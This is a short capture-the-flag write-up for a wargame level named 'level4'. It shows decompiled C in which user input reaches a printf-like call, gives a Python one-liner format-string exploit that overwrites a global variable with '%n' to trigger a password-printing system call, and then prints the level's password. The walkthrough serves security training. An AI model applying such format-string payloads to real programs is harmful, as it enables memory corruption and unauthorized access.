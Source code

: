 ```c
void n(void)
{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  p(local_20c);
  if (m == 16930116) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}

void main(void)
{
  n();
  return;
}

```

Here, the technique is the exact same, however there are a lot of characters to write to the terminal. It could be nice if a technique existed to allow us to write less to the terminal... Never mind, let's just write 16930116 characters in the terminal !

12 = offset %x %x %x....

```bash
python -c 'print "\x10\x98\x04\x08" + "%16930112x%12$n"'| ./level4
```


`0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`
